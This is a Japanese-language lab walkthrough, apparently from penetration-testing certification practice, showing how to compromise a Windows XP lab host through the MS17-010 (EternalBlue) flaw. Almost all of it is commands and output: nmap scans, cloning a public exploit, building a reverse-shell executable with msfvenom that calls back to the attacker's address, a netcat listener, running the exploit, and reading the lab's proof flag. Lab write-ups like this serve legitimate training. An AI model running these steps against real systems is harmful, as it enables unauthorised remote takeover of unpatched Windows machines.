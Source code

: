 1.　列挙   
初回ポートスキャン   
```
nmap -Pn -n -vvv -sV -oA nmap/initial 10.11.1.5
```
開いているポートに対して詳細なスキャン
```
nmap -Pn -sC -sV -p 135 139 445 1025 -oA nmap/base_script 10.11.1.5
```
nmapによる脆弱性調査
```
nmap -Pn --script=vuln 10.11.1.5
```
ms17-010(EternalBlue)があるのでexploitを探す。   
今回は    
https://github.com/helviojunior/MS17-010のsend_and_execute.pyを使う   

2.　Githubからexploitをダウンロード   
```
git clone https://github.com/helviojunior/MS17-010
```
3.　Impacketeをインストール
```
python2 -m pip install impacket
```
4.　実行権限付与
```
chmod +x send_and_execute.py
```
5.　リバースシェル作成
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.240 LPORT=4444 -f exe > shell.exe
```
6.　リスナー起動
```
nc -lnvp 4444
```
7.　Exploit実行
```
python ./send_and_execute.py 10.11.1.5 shell.exe
```
8.　シェル取得
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.119.240] from (UNKNOWN) [10.11.1.5] 3739
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
9.　フラグ取得
```
C:\WINDOWS\system32>cd c:\
C:\>whoami
C:\>cd C:\Documents and Settings\Administrator\Desktop
C:\Documents and Settings\Administrator\Desktop>type proof.txt
type proof.txt
ed20b785808f615be2c588ed925b18ce
```